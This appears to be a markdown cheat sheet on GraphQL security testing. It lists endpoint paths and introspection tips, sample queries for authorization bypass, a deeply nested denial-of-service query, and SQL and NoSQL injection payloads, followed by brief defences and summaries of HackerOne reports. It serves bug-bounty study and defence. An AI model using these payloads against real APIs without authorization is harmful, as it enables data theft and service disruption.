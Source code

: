 # Rest in peace

https://www.youtube.com/watch?v=NPDp7GHmMa0

## Find endpoints

- /graphql 
- /graphql/console
- /graphql.php
- /graphiql
- /v1/graphql
- /v2/graphql
- /v2/graphql/explorer

## Introspection

- Enabled by default
- Get all queries and mutations
- Test all queries and mutations
- Look at error messages

- use graphql voyager to visually explore the schema

## Attack techniques

- Bypass auth logic

```graphql
{
  user {
    id
    name
    friends {
      id
      name
    }
  }
}
```

This might work

```graphql
{
  friends {
    id
    name
  }
}
```

- Malicious queries

https://www.apollographql.com/blog/securing-your-graphql-api-from-malicious-queries-16130a324a6b/

```typescript
type Thread {
  message(first: Int, after: String): [Message]
}

type Message {
  thread: Thread
}

type Query {
  thread(id: ID!): Thread
}
```

What if we send a request - DoS with deeply nested query

```graphql
query maliciousQuery {
  thread(id: "some-id") {
    messages(first: 99999) {
      thread {
        messages(first: 99999) {
          thread {
            messages(first: 99999) {
              thread {
                # ...reapeat times 10000 ...
              }
            }
          }
        }
      }
    }
  }
}
```

- `isDeprecated` logic may not have been implemented

- Mutations not permitted ... or are they?

- SQL injections

```graphql
{
  Lift(id:"Blackhawk`") {
    status
    trialAccess {
      name
      status
    }
  }
}
```

```graphql
{
  Lift(id:"Blackhawk*") {
    status
    trialAccess {
      name
      status
    }
  }
}
```

- NoSQL injections

http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/

```graphql
{
  users(search: "{\"email\": {\"$gte\": \"\"}}:,
    options: "{\"fields\": {}}") {
      _id
      username
      fullname
      email
    }
}
```

![workflow](workflow.png)

## Protecting graphql

- Disable introspection
- Dont trust user data, always validate and sanitise user input
- Authorization bypass
- DoS
- 


## Examples:

### Shopify - beerify

- Extract data on beer consumption
- 802.20 = approximate price for 3 kegs of favourite beer

https://hackerone.com/reports/419883

### Hackerone - team data

- Auth bypass
- Team object return info on team
- Find private programs

### Hackerone - migration problems

- Improper auth
- `nodes` field introduced into the schema by default - bypass auth logic

### Hackerone - sqli

- Extract info in graphql endpoint through a param
